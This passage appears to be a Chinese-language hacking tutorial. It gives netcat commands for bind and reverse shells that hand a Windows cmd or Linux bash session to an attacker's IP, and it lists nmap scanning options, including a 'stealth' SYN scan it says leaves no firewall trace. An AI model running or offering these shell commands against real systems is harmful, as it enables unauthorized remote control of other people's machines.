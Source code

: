 ```
nc -lp 3333 -e cmd   #lp监听3333端口，如果有人连接我的3333端口，就把cmd反传给黑客执行
```

黑客：

```
nc -nv [目标Ip] 3333  #黑客就可以连接目标的cmd
```



**反向控制**：（大多数）
黑客：

```
nc -lp 3333  #监听自己的3333端口
```

目标：

```
nc -nv [黑客ip] 3333 -e cmd   #连接黑客的3333端口并且执行了cmd
```



如果是入侵linux系统，那么需要执行的是bash（等同于Windows的cmd） 

```
-c bash
#等同于 -e cmd
```



## nmap-kali自带软件

nmap全世界最厉害的扫描器：

主机发现
端口扫描
版本侦测
操作系统指纹识别



```
nmap   #可看所有可执行的命令
```



```
nmap [目标ip或目标网段192.168.1.0/24或目标网段192.168.1.1-24]   #普通扫描

-sT    #tcp扫描，普通扫描
nmap -sT [目标ip]

-sS    #隐秘扫描(不形成三次握手)，不建立tcp连接，所以不会在防火墙上留下痕迹

-sL [考虑扫一个网段]   #list scan列表扫描，主要用于主机发现
nmap -sL 192.168.1.1-254

-sn   #ping scan（ping扫描）只发现主机不扫描端口

-Pn   #将所有主机都假定为开机，跳过主机发现过程

-P0    #使用ip协议探测主机是否开启

-sU    #使用udp扫描

-p [指定扫描哪些端口]   

-O    #识别操作系统
```